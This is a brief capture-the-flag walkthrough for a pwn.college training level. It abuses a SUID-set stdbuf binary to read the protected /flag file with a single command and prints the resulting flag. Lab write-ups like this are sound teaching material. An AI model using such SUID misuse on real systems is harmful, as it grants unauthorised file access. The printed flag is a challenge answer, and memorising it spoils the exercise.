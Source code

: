 # pwn.college - Fundamentals - Program misuse - Level 29
```
$ /challenge/babysuid_level29
```
The SUID bit on `/usr/bin/stdbuf` is set. 
```
$ stdbuf -i 0 cat /flag
```
`pwn.college{Mh8CvdIDYVXVfVTAS7kRSSp10BQ.0VM3EDLyYjNyEzW}`